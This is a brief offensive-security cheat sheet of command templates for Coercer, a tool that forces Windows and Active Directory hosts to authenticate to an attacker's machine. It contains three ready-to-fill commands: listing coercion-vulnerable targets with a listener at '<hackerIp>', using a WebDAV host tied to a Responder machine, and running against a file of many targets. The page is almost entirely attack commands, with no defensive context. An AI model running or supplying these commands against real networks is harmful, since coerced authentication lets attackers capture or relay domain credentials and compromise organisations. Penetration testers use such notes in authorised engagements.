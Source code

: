 # coercer

% adcs, certificate, windows, Active directory, template

## coercer - list vulns
#platform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> 
```

## coercer - Webdav
#platform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' <targetIp> 
```

## coercer - List vulns many targets
#platform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```